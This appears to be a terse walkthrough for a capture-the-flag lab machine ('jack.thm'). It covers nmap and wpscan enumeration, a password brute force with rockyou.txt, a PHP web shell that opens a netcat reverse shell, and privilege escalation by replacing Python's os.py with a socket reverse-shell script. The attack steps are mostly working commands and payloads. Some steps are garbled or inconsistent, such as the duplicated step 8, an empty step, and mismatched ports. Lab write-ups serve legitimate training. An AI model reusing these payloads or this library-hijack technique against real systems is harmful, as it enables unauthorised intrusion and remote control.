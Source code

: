 ## Steps:
```
1. Connect with openvpn config file.
  $ openvpn configfile.ovpn
2. After connected in your server:
  $ nano /etc/hosts
3. Add "jack.thm"
4. Run with nmap:
  $ nmap -T4 -sS -sC -sV jack.thm scans/nmap
5. For find Users:
  $ wpscan -e u --url http://jack.thm
6. After got the users (danny,jack,wendy) and save it.
  $ wpscan --url http://jack.thm -U users.txt -P /usr/share/wordlists/rockyou.txt
    username: wendy & password: changelater
7. Login with credentials.
8. Add New 




8. Reverse shell from Netcat:
 <?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f") ?>
 
9. Privleage:
 python -c 'import pty; pty.spawn("/bin/bash")'
 
10. 
chmod +x pspy64
./pspy64
go to /opt/statuscheck/ for check
$ cd usr/lib/python2.7
$ nano os.py
 ```
 import socket
import pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<my ip>", 4444))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
s.close()
```
$ python os.py
  nc -lvnp 444

```
